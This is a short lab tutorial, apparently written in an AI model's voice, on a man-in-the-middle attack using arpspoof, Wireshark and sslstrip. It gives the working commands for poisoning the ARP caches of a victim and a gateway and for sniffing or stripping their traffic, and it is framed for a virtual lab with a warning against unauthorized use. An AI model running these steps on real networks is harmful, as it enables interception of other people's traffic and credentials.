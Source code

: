 Intercepting network traffic with `arpspoof` is a classic **Man-in-the-Middle (MitM)** technique. Here’s how you can perform it **safely in a lab** using a **VM** or **router** (like in a VirtualBox/VMware or physical network testbed). **Never use this on unauthorized networks.**


## ✅ LAB SETUP (Virtual)

**Devices:**

* Kali Linux VM (attacker)
* Windows or Ubuntu VM (victim)
* Router/Gateway (could be your default VM gateway or a pfSense VM)

**Network Mode:**

* All VMs on the same **NAT Network** or **Bridged Adapter** so they can see each other.


## 🔧 Steps to Intercept Traffic Using `arpspoof`

### 1. **Enable IP Forwarding on Attacker**

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 2. **Find Victim and Gateway IP**

Use `ip a`, `arp -a`, or `netdiscover` to find:

* Victim IP: `192.168.1.100`
* Gateway IP: `192.168.1.1`

### 3. **Run arpspoof**

Open two terminals:

**Terminal 1** (spoofing victim):

```bash
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```

**Terminal 2** (spoofing gateway):

```bash
arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```

This tricks both the victim and the gateway into sending traffic to **you**, making you the MITM.

### 4. **Sniff the Traffic**

Use `Wireshark`:

```bash
wireshark &
```

* Apply filter: `ip.addr == 192.168.1.100`

Now you can see **unencrypted** traffic like HTTP, DNS, etc.



### 🔐 Bonus: View HTTPS Traffic (Advanced)

HTTPS is encrypted, so use `mitmproxy`, `Bettercap`, or SSL stripping tools like:

```bash
sslstrip
```

Note: Modern sites use HSTS, so SSL stripping often fails now.



### 🛑 Clean Up

* Kill all `arpspoof` processes.
* Reset victim ARP cache manually or by rebooting.
* Disable IP forwarding:

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

